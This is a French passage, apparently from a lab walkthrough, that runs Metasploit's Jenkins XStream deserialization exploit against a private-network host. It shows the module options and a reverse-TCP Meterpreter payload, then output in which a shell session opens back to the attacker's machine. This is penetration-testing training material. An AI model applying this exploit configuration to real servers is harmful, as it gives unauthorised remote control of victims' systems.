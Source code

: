 On vérifie nos paramètres :
```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > options 

Module options (exploit/multi/http/jenkins_xstream_deserialize):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PSH_PATH                    no        Path to powershell.exe
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.7     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8484             yes       The target port (TCP)
   SRVHOST    192.168.56.5     yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    7080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path to Jenkins
   VHOST                       no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT     6666             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   5   Windows (Dropper)
```

Et on exploite avec __`run`__.

```bash
msf6 exploit(multi/http/jenkins_xstream_deserialize) > run

[*] Started reverse TCP handler on 192.168.56.5:6666 
[*] Command Stager progress -  20.94% done (2046/9770 bytes)
[*] Command Stager progress -  41.88% done (4092/9770 bytes)
[*] Command Stager progress -  62.82% done (6138/9770 bytes)
[*] Command Stager progress -  83.77% done (8184/9770 bytes)
[*] Command Stager progress - 100.00% done (9770/9770 bytes)
[*] Waiting for exploit to complete...
[*] Sending stage (200262 bytes) to 192.168.56.7
[*] Meterpreter session 1 opened (192.168.56.5:6666 -> 192.168.56.7:49600) at 2020-12-17 12:18:31 +0100

meterpreter > 

```
